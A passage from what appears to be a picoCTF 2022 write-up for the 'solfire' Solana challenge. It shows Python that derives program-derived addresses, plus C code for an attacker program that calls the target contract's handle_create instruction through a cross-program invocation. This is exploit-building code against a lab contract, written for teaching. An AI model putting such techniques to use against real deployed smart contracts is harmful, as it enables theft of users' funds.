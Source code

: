 **In order to conveniently do these calculations from our python script, I've pulled together some python code from various sources to assist in these calculations: [solana_helpers.py]({% link _reference/Hacking-101/picoCTF-2022-Greatest-Hits/solfire/solana_helpers.py %}) _(see code for source links and licenses)_**
{:.alert .alert-success}

---

We can use the function `find_program_address` from `solana_helpers.py` (*see link above*) to calculate a PDA like this:

```python
from base58 import b58decode, b58encode
from solana_helpers import find_program_address
ledger, ledgernonce = find_program_address([b""], b58decode(program_pubkey))
ledger = b58encode(ledger).decode()
print(f"ledger: {ledger} {ledgernonce}")
```

The function has an input that is the seed (in this case the seed is empty), and returns an address and a `nonce`. The `nonce` is an 8-bit value that is appended to the seed that ensures that the derived-hash is an address that is *not* on the ed25519 curve (which is required for PDA's). It is this `nonce` value that we are required to include in the instruction data for `handle_create`.

**Likewise, since we need the vault address as well, we can do the same calculation with the seed `"vault"`.**

Let's write a new program to call `handle_create`. In addition to the 5 accounts that solfire needs, our program will need an additional address: the address of the `solfire.so` contract itself. For simplicity, we will pass these addresses in the same order as required by `handle_create`, and simply add the solfire address to the end.

```c
uint8_t nonce = params->data[0];
sol_log("About to call solfire handle_create!");

// There must be exactly 5 addresses
SolAccountMeta meta[] = {
  {params->ka[0].key /* clock */, false, false},
  {params->ka[1].key /* system */, false, false}, /* must be system */
  {params->ka[2].key /* ledger */, true, false}, /* "ledger" */
  {params->ka[3].key /* vault */, false, false}, /*not used */
  {params->ka[4].key /* user */, true, true}, /* funding account - must be writeable, must be signed */
};

uint8_t buf[5] = {0};
buf[0] = 0; //[0-4] code - 0 is `handle_create`
buf[4] = nonce; //[4] nonce

const SolInstruction instruction = {params->ka[5].key /* program */, 
                                    meta, SOL_ARRAY_SIZE(meta),
                                    buf,  SOL_ARRAY_SIZE(buf)};

sol_invoke_signed(&instruction, params->ka, params->ka_num, (SolSignerSeeds*)0, 0);
```
